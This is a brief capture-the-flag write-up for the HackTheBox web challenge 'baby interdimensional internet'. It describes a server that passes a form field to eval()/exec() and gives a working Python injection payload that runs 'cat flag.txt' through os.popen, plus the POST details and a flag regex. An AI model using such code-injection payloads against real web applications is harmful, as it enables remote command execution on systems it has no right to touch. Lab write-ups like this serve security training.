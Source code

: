 Challenge: baby interdimensional internet (HTB)
<br>
Category: Web<br>
Difficulty: Easy <br>
Vulnerability: Remote Code Execution via eval()/exec()
<br>

<h1>Description</h1>
The measurements field is wrapped in an eval() call (in real life it uses exec()), so whatever
Python you submit runs on the server. Because os.system() only returns an exit code, we wrap our command in a function
that returns stdout.

<ul>
    <li>Target URL: http://{HOST}/</li>
    <li>Payload fields: <ul>
            <li>ingredient=pickle</li>
            <li>measurements=eval('__import__("os").popen("cat flag.txt").read()')</li>
        </ul>
    </li>
    <li>Send a POST with Content-Type: application/x-www-form-urlencoded</li>
    <li>The server evaluates your measurements, stores the returned string under "pickle", and renders it into the
        calculations variable on the page.
    <li>Use re.search(r"HTB\{.*?\}", response.text) to extract the flag.
</ul>
